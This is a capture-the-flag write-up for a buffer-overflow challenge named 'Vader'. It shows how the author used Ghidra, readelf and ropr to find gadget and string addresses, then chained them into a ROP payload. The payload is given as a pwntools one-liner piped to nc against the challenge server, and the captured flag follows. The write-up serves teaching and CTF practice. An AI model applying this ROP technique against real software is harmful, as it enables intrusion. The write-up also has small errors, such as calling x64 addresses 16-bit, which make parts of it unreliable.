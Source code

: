 # Vader

We are given a binary where we need to print flag.txt

If we open the file with Ghidra we can see that the executable is in the function Vader() which takes four pointers as arguments and compares them to "DARK" => "S1D3"=> "OF" => "TH3" => "FORC3" We need to make a code that takes us to that function passing those arguments

The binary is x64 bit so we need 16 bit addresses.

We found the padding to be 40 characters.

Using readlf we can find Vader()

```
readelf -s vader
```

> 46: 000000000040146b   330 FUNC    GLOBAL DEFAULT   14 vader

We need to go to that address but we still need to pass the arguments, if we see the binary in ghidra we can find the addresses of the strings that contain the comparations, we can use them as the arguments

 - "DARK" => 0x00402ec9
 - "S1D3"=> 0x00402ece
 - "OF" => 0x00402ed3
 - "TH3" => 0x00402ed6
 - "FORC3"0x00402eda

We also need to find the gadgest that follow the correct format for x64 binaries:

The format is RDI, RSI, RDX, RCX, R8, R9

We can use ```ropr``` to see the address where each register is dropped

![image](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/PicoCTF%202022/Images/bo23.png)

pop_rdi = 0x0040165b
pop_rsi = 0x00401659; r15 (We just need to add p64(0) after the second argument)
pop_rcx = (0x004011cd) pop_rdx; pop_rcx (Because they are in this order we can use them but we need to flip the arguments)
pop_r8 = 0x004011d9
vader function = 0x40146b

Now we have all the info that we need, we can construct the payload like

padding + pop_rdi + 0x00402ec9("DARK") + pop_rsi + 0x00402ece("S1D3") + JUNK + pop_rcx + 0x00402ed6("TH3") + 0x00402ed3("OF") + pop_r8 + 0x00402eda("FORC3") + 0x40146b(vader)

## Final payload

```
python2 -c "from pwn import *; print 'A' * 40 + p64(0x0040165b) + p64(0x00402ec9) + p64(0x00401659) + p64(0x00402ece) + p64(0) + p64(0x004011cd) + p64(0x00402ed6) + p64(0x00402ed3) + p64(0x004011d9) + p64(0x00402eda) + p64(0x40146b)" | nc 0.cloud.chals.io 20712
```

## Flag
> shctf{th3r3-1s-n0-try}

